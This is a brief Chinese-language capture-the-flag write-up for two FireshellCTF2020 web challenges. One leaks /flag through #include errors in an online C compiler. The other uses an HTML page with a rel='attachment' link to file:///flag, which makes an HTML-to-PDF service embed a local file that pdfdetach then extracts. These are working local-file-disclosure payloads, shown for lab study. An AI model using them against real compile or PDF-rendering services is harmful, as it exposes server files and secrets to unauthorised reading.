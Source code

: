 # FireshellCTF2020

## Caas

还蛮有意思的，可以在线编译c/c++

应该是调用服务器上gcc

编译的时候会出啥岔子呢

原题提示``/flag`` 那么考虑能不能LFI

``#include``试下

然后在报错信息里看到了flag

## URL TO PDF

buuoj不能连外网么法看，这题复现的wp

https://blog.shoebpatel.com/2020/03/23/FireShell-CTF-2020-Write-up/

就是html转pdf的时的attachment

开个靶机然后设置一个这样的网页

```
<!DOCTYPE html>
<html>
<head>
<title>Captain</title>
</head>
<body>
<a>"222"</a>
<a rel='attachment' href='file:///flag'>233</a>
</body>
```

然后用kali的pdfdetach分离出pdf里的attachment